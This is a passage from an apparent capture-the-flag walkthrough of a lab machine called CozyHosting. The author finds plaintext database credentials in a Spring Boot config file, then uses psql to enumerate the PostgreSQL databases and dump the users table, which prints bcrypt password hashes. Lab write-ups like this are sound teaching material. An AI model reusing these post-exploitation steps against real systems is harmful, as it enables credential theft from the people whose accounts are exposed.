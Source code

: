<figure><img src="../../.gitbook/assets/cozyhosting_search_pass.png" alt=""><figcaption><p>Figure 12: Searching for the <code>password</code> word.</p></figcaption></figure>

We find plaintext credentials within the `application.properties` file, which is where the Spring Boot's actuators are configured.

### Database Enumeration

We can use the credentials found to connect and then enumerate the PostgreSQL DMBS.

```bash
# Connecting to the PostgreSQL server
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
Password for user postgres:
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.
# Listing databases
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)
# Connecting to the cozyhosting database
postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
# Listing tables
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
# Dumping data from the users table
cozyhosting=# select * from users;
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
# Exiting database
cozyhosting=# \q
```